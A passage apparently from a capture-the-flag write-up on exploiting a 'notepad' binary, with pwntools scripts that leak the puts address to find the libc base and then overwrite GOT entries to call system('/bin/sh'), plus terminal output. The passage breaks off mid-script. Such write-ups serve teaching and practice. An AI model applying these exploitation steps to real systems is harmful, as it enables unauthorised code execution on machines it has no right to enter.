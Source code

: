 ```py

log.info(f"puts @ {hex(leak)}")
log.info(f"libc base @ {hex(libc.address)}")

p.interactive()
```

```sh
➜ python3 solve.py
[*] './notepad'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] './libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './notepad': pid 1570328
[*] puts @ 0x7f402b1c1e50
[*] libc base @ 0x7f402b141000
[*] Switching to interactive mode
Enter your note:
$
```

Success!

### Getting a shell

Now that we have our libc address, we want to call `system("/bin/sh")`. In order to do this, we need both the address of the `/bin/sh` string and the `system` function. 

We can overwrite the `puts` GOT entry to point to `system`, and then overwrite `buf` to be a pointer to `/bin/sh`, resulting in the program calling `system("/bin/sh")`.

```py
from pwn import *

context.binary = elf = ELF("./notepad")
libc = ELF("./libc.so.6")
p = process('./notepad')

p.sendline(fit({
    0: elf.sym.main,  # what we want to write into exit GOT
    16: 8,            # size of write
    24: elf.got.puts, # argument to puts
    32: elf.got.exit  # we will write into here
}))

p.recvuntil(b"Received\n")
leak = unpack(p.recvline().strip(), "all")
libc.address = leak - libc.sym.puts

log.info(f"puts @ {hex(leak)}")
log.info(f"libc base @ {hex(libc.address)}")

binsh_ptr = next(libc.search(b"/bin/sh"))

p.sendline(fit({
    0: libc.sym.system, # what we want to write into exit GOT
    16: 8,              # size of write
    24: binsh_ptr,      # argument to puts
```